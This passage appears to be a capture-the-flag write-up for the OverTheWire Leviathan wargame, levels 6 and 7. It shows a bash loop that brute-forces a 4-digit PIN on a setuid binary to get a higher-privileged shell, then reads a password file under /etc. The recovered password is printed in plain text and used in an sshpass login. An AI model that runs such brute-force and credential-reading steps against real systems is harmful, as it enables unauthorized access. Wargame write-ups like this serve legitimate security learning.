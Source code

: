 ```bash
leviathan6@leviathan:~$ ls
leviathan6
leviathan6@leviathan:~$ ls -l
total 8
-r-sr-x--- 1 leviathan7 leviathan6 7452 Aug 26  2019 leviathan6
leviathan6@leviathan:~$ ./leviathan6
usage: ./leviathan6 <4 digit code>
leviathan6@leviathan:~$ for i in {0000..9999}; do echo $i; ./leviathan6 $i; done
.
.
.
.
.
Wrong
7120
Wrong
7121
Wrong
7122
Wrong
7123
$ whoami
leviathan7
$ cat /etc/leviathan_pass/leviathan7
ahy7MaeBo9
```


# Level 7

```bash
sshpass -p ahy7MaeBo9 ssh leviathan7@leviathan.labs.overthewire.org -p 2223
```

```bash
leviathan7@leviathan:~$ ls
CONGRATULATIONS
leviathan7@leviathan:~$ file CONGRATULATIONS
CONGRATULATIONS: ASCII text
leviathan7@leviathan:~$ cat CONGRATULATIONS
Well Done, you seem to have used a *nix system before, now try something more serious.
(Please don't post writeups, solutions or spoilers about the games on the web. Thank you!)
```
